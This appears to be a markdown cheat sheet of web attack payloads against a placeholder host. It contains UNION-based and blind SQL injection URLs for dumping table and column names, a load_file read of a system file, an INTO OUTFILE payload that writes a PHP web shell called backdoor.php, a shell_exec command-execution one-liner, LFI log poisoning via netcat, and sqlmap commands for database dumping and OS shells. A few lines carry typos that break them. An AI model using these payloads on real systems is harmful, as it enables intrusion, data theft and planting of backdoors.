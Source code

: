 # SQL Injection

### LFI
```
Directory traversal, can we identify files that are useful, e.g (use of boot.ini), the ../../../ pattern, identification of the access.log location 
3. Use of netcat to inject <?php echo shell_exec['cmd']?> and invoke the access.log 
```


### Enumerating the Database (using union statements)
```
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,table_name,6%20from%20information_schema.tables
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,@@version,6
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,5,6
http://10.x.x.x/comment.php?id=782%20union%20all%20select%201,2,3,4,column_name,6%20from%20information_schema.columns%20where%20table_name=%27users%27
```

### Blind SQL Injection
```
http://10.x.x.x/comment.php?id=782%20and%201=1 (and 1=1)
http://10.x.x.x/comment.php?id=782-sleep(5) (-sleep(5))
```

### load_file Function
```
http://10.x.x.x/comment.php?id=782%20union%20all%20select%201,2,3,4,load_file(“c:/windows/system32/drivers/etc/hosts”),6

```
### into OUTFILE
```
Into OUTFILE
http://10.x.x.x/comment.php?id=782%20union%20all%20select%201,2,3,4,%22%3C?php%20echoshell_exec($_GET[%27cmd%27]);?%3E%22,6%20into%20OUTFILE%20%27c:/xampp/htdocs/backdoor.php%27
```

### PHP One-Liner
```
<?php echo shell_exec($_GET['cmd']);?>"
```

### SQLMap
```
Sqlmal -u http://10.x.x.x --crawl=1
Sqlmap -u http://10.x.x.x/comment.php --dump --dbms=mysql --threads=5
Sqlmap -u http://10.x.x.x/comment.php --dbms=mysql --threads=5 --os-shell

# List available databases:
sqlmap -u <target> --dbs <options>

# List tables with -D switch:
sqlmap -u <target> -D <database> --tables <other-options>

# Choose more tables:
sqlmap -u <target> -D <database> -T <tables,comma separated list> --columns <other options>

# You can dump JUST the columns you need:
sqlmap -u <target> -D <database> -T <table> -C <columns list> --dump <other options>

```

### Webapp Proxies
Use Tamper Data in Firefox to change output where restricted at client level
